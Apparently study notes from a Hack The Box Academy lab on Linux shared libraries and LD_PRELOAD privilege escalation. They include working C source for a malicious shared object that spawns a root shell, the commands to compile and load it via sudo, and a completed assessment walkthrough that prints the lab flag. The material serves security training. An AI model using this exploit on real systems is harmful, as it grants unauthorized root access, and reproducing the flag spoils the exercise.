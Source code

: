 # Shared Libraries

Two types of libraries exist in Linux:

* `static libraries` (denoted by the .a file extension)
* `dynamically linked shared object libraries` (denoted by the .so file extension)

When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

Methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the `-rpath` or `-rpath-link` flags when compiling a program, using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`, placing libraries in the `/lib` or `/usr/lib` default directories, or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file.

lists all the libraries required by `/bin/ls`, along with their absolute paths.

```shell-session
htb_student@NIX02:~$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

### LD\_PRELOAD Privilege Escalation

Example of how we can utilize the [LD\_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld\_preload.html) environment variable to escalate privileges. For this, we need a user with `sudo` privileges.

```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

* user has rights to restart apache service as root (not in gtfobins)
* `/etc/sudoers` entry is written specifying the absolute path
* We can exploit the `LD_PRELOAD` issue to run a custom shared library file.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can compile this as follows:

```shell-session
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.

```shell-session
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```

## Assessment

Escalate privileges using LD\_PRELOAD technique. Submit the contents of the flag.txt file in the /root/ld\_preload directory.

```bash
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
htb-student@NIX02:~$ ldd /usr/bin/openssl
        linux-vdso.so.1 =>  (0x00007fff6df45000)
        libssl.so.1.0.0 => /lib/x86_64-linux-gnu/libssl.so.1.0.0 (0x00007f6a919f2000)
        libcrypto.so.1.0.0 => /lib/x86_64-linux-gnu/libcrypto.so.1.0.0 (0x00007f6a915ae000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6a911e4000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f6a90fe0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6a91c5b000)

```

```bash
htb-student@NIX02:~$ cat lib.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
htb-student@NIX02:~$ gcc -fPIC -shared -o lib.so lib.c -nostartfiles
```

```bash
htb-student@NIX02:~$ pwd
/home/htb-student
htb-student@NIX02:~$ sudo LD_PRELOAD=/home/htb-student/lib.so /usr/bin/openssl
root@NIX02:~# ls
lib.c  lib.so  lynis-master  master.zip  shared_obj_hijack
root@NIX02:~# cat /root/ld_preload/flag.txt 
6a9c151a599135618b8f09adc78ab5f1
root@NIX02:~#
```
